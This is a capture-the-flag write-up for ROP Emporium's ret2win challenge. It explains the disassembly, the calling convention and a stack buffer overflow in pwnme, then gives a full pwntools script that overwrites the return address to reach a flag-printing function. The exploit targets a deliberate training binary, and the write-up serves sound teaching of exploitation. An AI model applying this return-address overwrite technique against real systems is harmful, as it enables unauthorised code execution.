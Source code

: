 # Challenge 1 - Ret2win

## Disassembly
Let's start by disassembling the binary and start at main:

![main_function](images/main.png)

As can be seen it prints some information to the screen using puts and then calls pwnme. Let's take a look at pwnme.

![pwnme_function](images/pwnme.png)

In this function we have a buffer overflow. But how can we see that?

If we look at the first instructions of the function we can see that the function sets up a stack frame:

```C
push rbp        //Save old rbp
mov rbp, rsp    //Save old rsp
sub rsp, 0x20   //Move stack 0x20 further back 
```
This is a stack frame of the size 0x20. The function basically expects that all of the variables on the stack, combined will not exceed 0x20 in size.

If we look further down we can also see that a read call is performed:

```C
lea rax, [buf]
mov edx, 0x38
mov rsi, rax
mov edi, 0
call read
```
This is unnecessarily confusing as the ```lea rax, [buf]``` actually doesn't need to be there and can be replaced by an ```lea rsi [buf]``` so let's clean it up:

```C
mov rdi, 0
lea rsi, [buf]
mov rdx, 0x38
call read
```
To understand exactly what happens here we just need to know a tiny bit about GNU/Linux's calling convention.

## Calling convention

When arguments need to be passed to a function, values for the arguments are passed into the general purpose registers in a specific order (given that they are not floating point numbers). If there are too many arguments for the function, so that we run out of registers for this purpose, the rest are passed on the stack.

The calling convention goes as follows on GNU/Linux:
|Argument no.|Register|
|------------|--------|
|1|RDI|
|2|RSI|
|3|RDX|
|4|RCX|
|5|R8|
|6|r9|
|7..xx|On the stack|

We can then look up the corresponding man page for the function and check what the call would be. In this case it is read:

```
NAME
       read - read from a file descriptor

SYNOPSIS
       #include <unistd.h>

       ssize_t read(int fd, void *buf, size_t count);
```

So the call to read would be: 
```C 
read(0,*buf,0x38);
```

Basically reading 0x38 bytes from file descriptor 0 (stdin) into our buffer on the stack.

By basic math we can see that 0x38 is above 0x20, and therefore we have a buffer overflow.

Now that we are done with the reversing, let's get to the exploitation.

## Exploitation
### Pwntools broilerplate

I'll be using this boilerplate code I've made for pwntools, as my starting point for every exploit in ROPEmporium:
```python
from pwn import *

context.arch = "amd64" #Specify x86-64 architecture

context.terminal = ["konsole","-e"] #Specify that I am using Konsole terminal

#Auto-executing gdbscript for every run
gdbscript = '''
b *main
c
'''

binary = "./ret2win" #Binary name

io = gdb.debug(binary,gdbscript=gdbscript) #Open gdb with our binary executing our gdbscript

#Your
#Code
#Goes
#Here


io.interactive() #Make the binary halt for userinput
```
Runnning this with ```python3 exploit.py``` should open a new window with gdb attached and breaked at main.

The boilerplate can also be found in this folder named boilerplate.py

### Finding the padding

Now that we know we can overflow, we need to find the amount of padding needed before we overflow the return pointer.

We can use pwntools' cyclic function to generate a cyclic pattern of characters we can index through. Then send that to the binary:

```python
padding = cyclic(200)
io.send(padding)
```

We can then run and stop right before we return to check what the top stack value is:

![break_before_return](images/breakbeforereturn.png)

The value the function is about to return to can be seen in the bottom half of the screen under "STACK". In this case we can see the string ```kaaalaaa```

We can then use pwntools' cyclic_find to adjust our padding, so we can put in the return pointer we are interested in instead of the string ```kaaalaaa```.

I'll be adding the string 'AAAA' so we can see that we now can control the return point

```python
padding = cyclic(200)[:cyclic_find('kaaalaaa')]
io.send(padding + b'AAAA')
```

![aaaa_return](images/aaaa_return.png)

As we can see under "STACK" the we will now try to return to the address "AAAA" or 0x41414141, we can now successfully control the return pointer

### Where do we want to go?
By looking at the different functions on the left side in Cutter I can see that we have a function called ret2win:

![ret2win_function](images/ret2infunction.png)

Disassembling it shows us that it calls 
```C 
system("/bin/cat flag.txt");
```

![ret2win_disassm](images/ret2windisassm.png)

So let's copy that address ```0x00400756``` and try to return to that:

```python
padding = cyclic(200)[:cyclic_find('kaaalaaa')] #find padding
ret2win = p64(0x400756) #ret2win function address packed to bytes so we can send it
io.send(padding+ret2win)
```

We can now see that we will return to the ret2win function:

![ret2win_success](images/ret2win_success.png)

Pressing continue now starts loading system and we can see in our interactive shell in the other window that a flag has been printed:

![flag](images/flag.png)

Now we just need to see if it works if we replace gdb.debug with process, and we can get the flag without gdb attached!

Here's the full script:
```python
from pwn import *

context.arch = "amd64" #Specify x86-64 architecture

context.terminal = ["konsole","-e"] #Specify that I am using Konsole terminal

#Auto-executing gdbscript for every run
gdbscript = '''
b *main
c
'''

binary = "./ret2win" #Binary name

#io = gdb.debug(binary,gdbscript=gdbscript)
io = process(binary)

padding = cyclic(200)[:cyclic_find('kaaalaaa')]

ret2win = p64(0x400756) #ret2win function address packed to bytes so we can send it

io.send(padding+ret2win)

io.interactive()
```

And this gives us the flag as well:
```ROPE{a_placeholder_32byte_flag!}```


